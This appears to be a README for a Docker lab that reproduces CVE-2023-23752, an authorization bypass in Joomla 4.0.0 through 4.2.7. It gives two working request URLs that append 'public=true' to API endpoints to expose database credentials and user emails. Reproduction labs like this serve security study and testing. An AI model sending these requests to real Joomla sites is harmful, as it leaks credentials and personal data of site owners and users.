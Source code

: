 # Joomla improper access check in webservice endpoints (CVE-2023-23752)

[中文版本(Chinese version)](README.zh-cn.md)

Joomla is a free and open-source content management system (CMS) that allows users to build websites and online applications. It was first released in 2005 and has since become one of the most popular CMS platforms, powering millions of websites around the world.

An issue was discovered in Joomla! 4.0.0 through 4.2.7. An improper access check allows unauthorized access to webservice endpoints.

References:

- <https://developer.joomla.org/security-centre/894-20230201-core-improper-access-check-in-webservice-endpoints.html>
- <https://xz.aliyun.com/t/12175>
- <https://vulncheck.com/blog/joomla-for-rce>

## Vulnerable Environment

Execute following command to start a Joomla site 4.2.7:

```
docker-compose up -d
```

You can access the Joomla website through `http://your-ip:8080` after the server is started.

## Exploit

This issue is caused by an attribute overwrite issue, the attacker can use `public=true` to bypass the authorization check.

For example, expose all configuration including MySQL username and password through this link:

```
http://your-ip:8080/api/index.php/v1/config/application?public=true
```

![](1.png)

expose all users information including emails through this link:

```
http://your-ip:8080/api/index.php/v1/users?public=true
```

![](2.png)
